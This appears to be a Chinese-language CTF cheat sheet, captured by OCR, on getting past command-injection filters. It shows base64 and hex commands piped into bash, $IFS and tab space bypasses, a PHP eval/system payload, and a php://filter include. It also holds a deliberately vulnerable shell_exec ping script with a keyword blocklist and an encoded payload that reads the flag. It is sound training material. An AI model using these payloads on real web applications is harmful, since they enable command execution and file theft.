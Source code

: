 ```bash
# 编码绕过    
# base64编码绕过(引号可以去掉)  |(管道符) 会把前一个命令的输出作为后一个命令的参数
echo "Y2F0IGZsYWcucGhw" | base64 -d | bash      
# hex编码绕过(引号可以去掉)
echo "63617420666c61672e706870" | xxd -r -p | bash       
# sh的效果和bash一样
echo "63617420666c61672e706870" | xxd -r -p | sh 
1234567
```

**空格过滤绕过**

```bash
${IFS}$9
{IFS}
$IFS
${IFS}
#$1改成$加其他数字貌似都行
$IFS$1 
# {command,param}，需要用{}括起来
{cat,flag.php}
# \x09表示tab,\x20空格
X=$'cat\x09./flag.php';$X       
12345678910
```

**嵌套执行**

```bash
?c=eval($_GET[1]);&1=system('cat flag.php');
```

**过滤分号**

```bash
#最后一条语句可不加;直接使用?>闭合
include%0A$_GET[1]?>&1=php://filter/convert.base64-encode/resource=flag.php
```

**payload**

```php
//题目过滤
<?php
	if(!isset($_POST["iipp"]))
		echo '';
	else{
		if(preg_match("/\;|cat|ls|ll|\/|l|:|flag|IFS| |\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x26|\>|\<|\\\\|{|}|\&|\?/i", $iipp)){
			die("hacker!!!");
		}
		$result=shell_exec('ping -c 4 '.$iipp);
		$result=str_replace("\n","<br>",$result);
		echo $result;
?>
//payload
//过滤斜杠，因此必须堆叠注入
//过滤分号，用%0a代替 
//过滤空格，用%09代替
//过滤cat，使用ca''t绕过查看index.php
//过滤l（这题最刁钻的地方），ls无法使用且flag文件名只能用通配，find查看目录结构，配合grep读取flag，但是要注意递归深度，加上-maxdepth

127.0.0.1%0acd%09..%0acd%09..%0acd%09..%0acd%09..%0acd%09..%0acd%09..%0acd%09..%0afind%09.%09-maxdepth%091%09|xargs%09grep%09"ag"%09.&submit=Ping
```
